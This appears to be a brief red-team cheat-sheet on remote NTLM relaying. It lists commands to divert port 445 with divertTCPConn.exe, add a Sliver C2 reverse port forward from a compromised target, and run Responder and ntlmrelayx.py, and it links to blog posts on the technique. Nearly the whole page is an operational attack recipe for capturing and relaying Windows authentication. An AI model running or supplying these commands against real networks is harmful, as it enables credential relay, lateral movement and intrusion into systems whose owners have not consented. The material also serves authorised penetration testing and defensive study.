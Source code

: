 # Remote NTLM Relaying

```
divertTCPConn.exe 445 8445
```

## Sliver C2

```
rportfwd add -r 127.0.0.1:445 -b <compromised_target_IP>:8445
```

```
$ sudo responder -I lo

$ sudo ntlmrelayx.py -ip 127.0.0.1
```

---
## References

- [Arno0x: DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)

- [DiabloHorn: Remote NTLM relaying through meterpreter on Windows port 445](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)

- [Rasta Mouse: NTLM Relaying via Cobalt Strike](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

- [Pentester's Promiscous Notebook: NTLM Relay](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlm-relay)